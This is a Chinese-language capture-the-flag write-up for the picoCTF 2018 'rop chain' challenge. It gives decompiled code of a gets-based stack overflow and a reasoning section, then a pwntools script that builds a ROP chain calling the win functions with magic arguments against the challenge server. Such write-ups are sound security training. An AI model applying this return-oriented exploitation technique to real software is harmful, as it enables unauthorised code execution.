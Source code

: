 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 rop chain
date: 2022-3-26 8:45:03
permalink: /pages/2e1547494524d19b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 rop chain

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_rop_chain/PicoCTF_2018_rop_chain'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  vuln();
  return 0;
}
```

vuln函数如下

```c
char *vuln()
{
  char s; // [esp+0h] [ebp-18h]

  printf("Enter your input> ");
  return gets(&s);
}
```

flag函数如下

```c
int flag(int a1)
{
  char s; // [esp+Ch] [ebp-3Ch]
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(&s, 48, stream);
  if ( win1 && win2 && a1 == -559039827 )
    return printf("%s", &s);
  if ( win1 && win2 )
    return puts("Incorrect Argument. Remember, you can call other functions in between each win function!");
  if ( win1 || win2 )
    return puts("Nice Try! You're Getting There!");
  return puts("You won't get the flag that easy..");
}
```

win_function1函数如下

```c
void win_function1()
{
  win1 = 1;
}
```

win_function2函数如下

```c
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == -1163220307 )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```



## 思路分析

1. 目前信息：
   - vuln函数内明显的栈溢出
   - win_function1函数可修改win1=1
   - 参数为-1163220307时win_function2函数可修改win2 =1
   - win1 =1， win2 =1参数为-559039827时flag函数可获得flag
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 构造rop链完成3个参数赋值，返回到flag函数获得flag

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/picoctf_2018_rop_chain/PicoCTF_2018_rop_chain'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27310)
elf = ELF(pwnfile)
padding = 0x18+4
win_function1_addr = elf.symbols['win_function1']
win_function2_addr = elf.symbols['win_function2']
flag_addr = elf.symbols['flag']
pop_ebx_ret = 0x0804840d
win_function1_parameter = -1163220307
win_function2_parameter = -559039827
payload = flat(['a'*padding, win_function1_addr, win_function2_addr, pop_ebx_ret,win_function1_parameter, flag_addr, 0xdeadbeef, win_function2_parameter])
io.recv()
io.sendline(payload)
io.interactive()
```